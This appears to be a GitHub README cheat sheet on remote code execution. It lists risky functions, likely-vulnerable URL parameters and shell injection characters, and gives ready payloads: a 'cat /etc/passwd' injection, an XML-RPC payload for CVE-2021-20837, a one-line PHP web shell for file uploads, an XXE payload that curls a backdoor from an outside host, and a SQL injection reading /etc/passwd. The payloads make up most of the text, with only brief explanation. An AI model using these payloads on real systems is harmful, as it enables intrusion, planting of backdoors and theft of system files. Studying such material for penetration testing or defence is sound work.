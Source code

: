 # RCE-reserch
Article about RCE vulnerability
RCE (Remote Code Execution) vulnerability is the possibility of executing malicious code or controlling and executing code remotely. This vulnerability is related to a security failure in a software or system. By using RCE, an attacker can gain complete control over the victim's system and perform various operations, obtain all kinds of sensitive information, and in some cases, target other attacks on other components and related networks.
System functions can be the main cause of RCE vulnerability. System functions are functions that run at the operating system level and allow a software program to communicate with system-dependent kernel parts.

If these functions are used unprotected and improperly, they allow attackers to execute their malicious code at the system level and obtain the execution of command line commands or perform other malicious activities. In other words, these are entry points for RCE attacks.

Some well-known functions that can create RCE risk potential include:

    system()
    execute()
    evaluate()
    passthru()
    shell_exec()
    open()

Parameters that may have an rce vulnerability

    ?cmd=
    ?exec=
    ?command=
    ?execute=
    ?ping=
    ?query=
    ?jump=
    ?code=
    ?reg=
    ?do=
    ?func=
    ?arg=
    ?option=
    ?load=
    ?process=
    ?step=
    ?read=
    ?function=
    ?req=
    ?feature=
    ?exe=
    ?module=
    ?payload=
    ?run=
    ?print=

vulnrability 


characters to find rce

    $()
    ; or ;;
    & or &&
    | or ||
    $ or $$
    `payload` -> `cat /etc/passwd`

xml-rpc to rce

CVE-2021-20837 

    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
            #{base64_cmd}
            </base64>
          </value>
        </param>
      </params>
    </methodCall>


File upload to RCE

    <?php echo shell_exec($_GET['e'].' 2>&1'); ?>

XXE to RCE 

    <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
     <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
     ]>
     <root>
    <name>Joe</name>
    <tel>ufgh</tel>
    <email>START_&file;_END</email>
    <password>kjh</password>
    </root>

SQLI to RCE

    UNION SELECT load_file(' /etc/passwd ')    

OOB(out of band)

    Unlike in-band attacks that take place in the same main channel between the service and the user, OOB attacks take place separately and outside the main channel. More precisely, in OOB attacks, the attacker communicates with the server through a separate channel (e.g. DNS) and transmits his commands
